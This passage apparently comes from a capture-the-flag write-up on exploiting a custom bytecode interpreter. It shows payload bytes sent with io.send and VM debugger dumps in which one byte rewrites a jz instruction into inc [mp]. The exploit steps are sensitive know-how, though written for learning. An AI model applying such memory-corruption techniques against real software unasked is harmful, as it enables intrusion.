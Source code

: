 
We now add some more bytes to the payload:

```python
io.send(b'\x01\x00\x04\x01\x00\x41\x07')
```

The goal of this is to fill some more bytes to prepare for a targeted decrement of an opcode.

```
CODE:   0x00007ffcd97ce378
  80: 01fe0001  inc     mp
  84: 04fd0004  getc    [mp]
  88: 000d0107  jz      0xb4
  8c: 00064107  jz      0x98
  90: 00000001  inc     mp
  94: 00040008  jnz     0x90
  98: 00000004  getc    [mp]    <- ip
  9c: 000a0007  jz      0xa8
  a0: 00000002  dec     mp
  a4: 00080008  jnz     0xa0
  a8: 00000001  inc     mp
  ac: 00000006  dec     [mp]
  b0: 00030008  jnz     0x8c
  b4: 00000006  dec     [mp]
  ...
REGISTERS:
mp: 0x8f -> 0x00
ip: 0x06 -> 00000004    getc    [mp]
```

---

We fire one byte to cause modify one of the instructions!

```python
io.send(b'\x01')
```

We have changed the instruction at `mem[0x8c]` from a `jz` to an `inc [mp]` instruction. This is still not useful, though.

```
CODE:   0x00007fff18d48868
  80: 01fe0001  inc     mp
  84: 04fd0004  getc    [mp]
  88: 000d0107  jz      0xb4
  8c: 01064105  inc     [mp]
  90: 00000001  inc     mp
  94: 00040008  jnz     0x90
  98: 00000004  getc    [mp]    <- ip
  9c: 000a0007  jz      0xa8
  a0: 00000002  dec     mp
  a4: 00080008  jnz     0xa0
  a8: 00000001  inc     mp
  ac: 00000006  dec     [mp]
  b0: 00030008  jnz     0x8c
  b4: 00000006  dec     [mp]
  ...
REGISTERS:
mp: 0x91 -> 0x00
ip: 0x06 -> 00000004    getc    [mp]
```

---